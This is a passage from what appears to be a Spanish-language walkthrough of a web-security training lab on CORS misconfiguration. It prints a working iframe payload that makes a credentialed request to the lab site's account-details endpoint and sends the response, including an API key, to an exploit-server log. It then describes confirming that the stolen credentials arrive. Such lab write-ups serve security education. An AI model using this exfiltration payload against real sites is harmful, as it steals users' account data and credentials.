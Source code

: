 `Modificamos` el `payload` anterior, nos `dirigimos` al `Exploit server` y lo `pegamos` 

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
  <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://0aa100af03ff4cc38027adf700490041.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
      location = 'https://exploit-0a2800d9039b4c5f8069ac7001ea0015.exploit-server.net/log?key=' + this.responseText;
    };
  </script>
"></iframe>
```

![](/assets/img/CORS-Lab-2/image_7.png)

Pulsamos sobre `View exploit` para `confirmar` que `funciona correctamente`

![](/assets/img/CORS-Lab-2/image_8.png)

Si pulsamos sobre `Access log` veremos que hemos `recibido` una `petición` con nuestra `credenciales`
